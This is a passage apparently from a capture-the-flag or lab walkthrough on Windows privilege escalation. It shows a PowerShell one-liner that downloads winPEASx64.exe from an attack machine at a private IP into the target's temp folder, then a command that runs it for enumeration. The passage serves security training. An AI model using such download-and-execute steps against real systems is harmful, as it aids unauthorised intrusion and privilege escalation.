![](images/20230913141304.png)
Next step is to transfer a winPEAS script to autotmate our Privilege Escalation Enumeration and then run the script.

Command to transfer the script form our attack machine to our target machine:
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.8.129.243:80/winPEASx64.exe', 'C:\\Windows\temp\winPEASx64.exe')"
```
Command to execute the script:
```powershell
.\winPEASx64.exe
```

